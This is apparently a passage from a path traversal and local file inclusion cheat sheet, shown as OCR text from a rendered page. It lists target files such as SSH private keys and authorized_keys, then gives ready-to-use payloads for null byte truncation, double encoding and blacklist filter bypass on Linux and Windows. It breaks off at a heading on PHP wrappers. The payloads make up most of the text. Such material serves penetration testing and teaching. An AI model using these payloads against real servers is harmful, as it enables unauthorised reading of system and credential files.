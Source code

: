 ```
/root/.ssh/id_rsa
/home/<USERNAME>/.ssh/authorized_keys
/root/.ssh/authorized_keys
```

###### Null Byte

In some cases, the server will append an extension at the end of the requested
file, such as ".php”.

Such mechanisms can be bypassed using the line terminator char *null byte*:

```
# Linux
?file=../../../../../../../../../../etc/passwd%00

# Windows
?file=..\..\..\..\..\..\..\..\..\..\WINDOWS\System32\drivers\etc\hosts%00
```

###### Double encoding

Encoding parameters twice in hexadecimal format can be leveraged to bypass
security controls such as blacklist filters.  
For example, the '.' (*dot*) character represent %2E in hexadecimal
representation. When the % symbol is encoded again, its representation in
hexadecimal code is %25. The result from the double encoding process is %252E.

```
# Linux
?file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd

# Windows
?file=%252e%252e%255c%252e%252e%255c%252e%252e%255cWINDOWS%255cSystem32%255cdrivers%255cetc%255chosts
```

###### Filter bypass

Some blacklist filter may be implemented and restrict the usage of "../".  
Those kind of filter may be passed using the following payloads:

```
# Linux
?file=..././..././..././etc/passwd
?file=....//....//etc/passwd
?file=..///////..////..//////etc/passwd

# Windows
?file=....\\....\\....\\....\\....\\....\\WINDOWS\System32\drivers\etc\hosts%00
?file=..\\\\\\..\\\\\\..\\\\\\..\\\\\\..\\\\\\WINDOWS\System32\drivers\etc\hosts%00
```

###### PHP wrappers

**php://filter**  
This PHP wrapper can be used to access the source code of the page:

